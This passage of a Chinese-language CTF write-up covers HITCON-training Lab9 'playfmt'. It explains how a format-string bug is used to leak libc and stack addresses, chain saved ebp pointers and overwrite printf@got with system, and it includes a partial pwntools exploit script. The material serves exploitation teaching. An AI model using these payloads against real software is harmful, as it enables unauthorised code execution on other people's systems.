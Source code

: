 ```
0xffffcf44│+0x0038: 0xffffcf60  →  0x00000001
0xffffcf48│+0x003c: 0x00000000
0xffffcf4c│+0x0040: 0xf7e17637  →  <__libc_start_main+247> add esp, 0x10


```

但是，也因为fmt string不在栈上，想要任意地址写则比较困难，这里参考了Vidar-Team某师傅的题解（<https://veritas501.space/2017/05/23/HITCON-training%20writeup/>），利用栈中ebp的相对偏移已知的特点。我们可以看到0xffffcf28处ebp指向0xffffcf38处，而0xffffcf38处指向0xffffcf48处。

这里有几个需要注意的点：

- 首先我们需要leak栈地址，才能利用格式化字符串漏洞进行写入，通过"%6$x"将ebp1处存的ebp2的栈地址leak出来，然后根据相对偏移算出ebp1、nop1、nop2的地址。
- 如果我们修改ebp1，就相当于向ebp2的地址写，再修改ebp2，也就相当于往任意地址写。
- 注意到栈地址只有低2个字节不同，所以用hn写入低两个字节即可修改ebp1处和ebp2处的地址。
- 我们想要劫持got表，将printf@got修改为system。由Lab8可以知道，想写入一个大整数，直接写4个byte是不行的，所以在这里我们分开写，两个byte两个byte的写：将nop1修改为printf@got的地址，将nop2修改为printf@got + 2的地址，然后用%c$hn写入即可。

### 利用 ###

完整的exp如下：

```python
from pwn import *
# from LibcSearcher import *

libc = ELF("/lib/i386-linux-gnu/libc.so.6")
context.log_level = "debug"
elf = ELF("./playfmt")
p = process("./playfmt")

p.recvuntil("\n")
payload = "%15$paaaa"
p.sendline(payload)
addr = int(p.recvuntil("aaaa").split('aaaa')[0].split("\n")[-1],16)

libc.address = addr - libc.symbols['__libc_start_main'] - 247
system = libc.symbols['system']
binsh = next(libc.search("/bin/sh"))
printfgot = elf.got['printf']

payload1 = "%6$x"
p.recvuntil("\n")
p.sendline(payload1)
ebp2 = int("0x" + p.recvline().strip(), 16)
ebp1 = ebp2 - 0x10
nop2 = ebp2 + 0x4
nop1 = ebp2 - 0xc 

# [ebp2] = nop1
payload = "%" + str(nop1 & 0xffff) + "c%6$hn"
p.recvuntil("\n")
p.sendline(payload)

# [nop1] = printgot
payload = "%" + str(printfgot & 0xffff) + "c%10$hn"
p.recvuntil("\n")
p.sendline(payload)

# [ebp2] = nop2
payload = "%" + str(nop2 & 0xffff) + "c%6$hn"
p.recvuntil("\n")
p.sendline(payload)

```